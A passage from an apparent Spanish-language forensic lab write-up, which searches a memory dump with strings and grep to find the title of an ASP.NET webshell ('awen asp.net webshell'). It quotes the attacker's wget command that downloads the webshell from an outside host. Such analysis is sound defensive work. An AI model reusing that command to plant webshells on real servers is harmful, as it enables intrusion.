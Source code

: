 El comando realizado por el atacante para descargar la *webshell* en el servidor fue `wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx`.

---

## **13. *What was the string within the title header of the webshell deployed by the TA?***

Para poder explorar de forma más rápida el archivo `I-like-to-27a787c5.vmem`, se utilizó el comando `strings` y se guardó su output en un archivo TXT.

```
ZSH> strings I-like-to-27a787c5.vmem > I-like-to-27a787c5.txt
```

Al buscar por el nombre de la *webshell* se encontró nuevamente con el comando ejecutado por el atacante.

```
ZSH> grep 'move.aspx' I-like-to-27a787c5.txt
...
wget http://10.255.254.3:9001/move.aspx -OutFile move.aspx
<form name="cmd" method="post" action="./move.aspx" id="cmd">
...
```

Justo debajo del comando, se encuentra un formulario HTML.

Al filtrar utilizando esta cadena se obtuvieron cuatro coincidencias:

```
ZSH> grep '<form name="cmd" method="post" action="./move.aspx" id="cmd">' I-like-to-27a787c5.txt
<form name="cmd" method="post" action="./move.aspx" id="cmd">
<form name="cmd" method="post" action="./move.aspx" id="cmd">
<form name="cmd" method="post" action="./move.aspx" id="cmd">
<form name="cmd" method="post" action="./move.aspx" id="cmd">
<form name="cmd" method="post" action="./move.aspx" id="cmd">
```

Con `grep` se pueden mostrar las líneas que se encuentran antes y después de una cadena.

Luego de probar con varios valores, al mostrar las 5 líneas que se encuentran sobre el formulario se obtiene el contenido de las etiquetas `HEAD`.

```
ZSH> grep -B 5 '<form name="cmd" method="post" action="./move.aspx" id="cmd">' I-like-to-27a787c5.txt
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form name="cmd" method="post" action="./move.aspx" id="cmd">
--
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form name="cmd" method="post" action="./move.aspx" id="cmd">
--
<HTML>
<HEAD>
<title>awen asp.net webshell</title>
</HEAD>
<body >
<form name="cmd" method="post" action="./move.aspx" id="cmd">
--
<HTML>
```